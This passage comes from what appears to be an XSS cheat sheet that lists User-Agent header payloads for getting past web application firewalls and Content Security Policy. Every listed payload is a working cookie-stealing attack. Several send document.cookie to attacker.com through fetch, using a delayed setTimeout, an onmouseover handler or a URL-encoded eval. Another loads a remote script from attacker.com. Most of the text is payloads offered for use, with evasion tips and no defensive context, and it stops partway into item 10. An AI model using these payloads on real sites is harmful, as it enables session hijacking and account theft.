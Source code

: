 >**Bypasses some database sanitization mechanisms**.  

## **🔹 6️⃣ JavaScript `setTimeout()` Delay Execution**  

>If WAFs block scripts **executing immediately**, delay the execution:  

```
User-Agent: <img src=x onerror="setTimeout('fetch(\'http://attacker.com/log?c=\'+document.cookie)', 2000)">
```  

>**Bypasses immediate execution detection**.  

## **🔹 7️⃣ JavaScript Event-Based Execution (Alternative `onerror` Bypass)**  

>Instead of using `onerror=`, try **different event handlers** like `onmouseover`:  

```
User-Agent: <img src=x onmouseover="fetch('http://attacker.com/log?c='+document.cookie)">
```  

>This triggers when a user **moves their mouse** over the profile.  

>**Bypasses WAFs that block `onerror=` but allow other event handlers**.  

## **🔹 8️⃣ Using `eval()` with Encoded Strings**  

```
User-Agent: <script>eval(unescape('%66%65%74%63%68%28%27%68%74%74%70%3a%2f%2f%61%74%74%61%63%6b%65%72%2e%63%6f%6d%2f%6c%6f%67%3f%63%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29'));</script>
```  

>**Bypasses static signature detection in WAFs**.   

----  

## **🔹 9️⃣ Dynamic Script Injection (Bypass CSP)**  

>If the application has **Content Security Policy (CSP)**, try dynamically injecting scripts:  

```
User-Agent: <script>var s=document.createElement('script');s.src='http://attacker.com/payload.js';document.body.appendChild(s);</script>
```  

>Above JavaScript loads a **remote script** dynamically, allowing full **XSS execution**.  

>✅ **Bypasses inline script blocking**.  

----  

## **🔹 🔥 10️⃣ Advanced Mutation Using JavaScript**  

>Strong heavily restricted applications:  
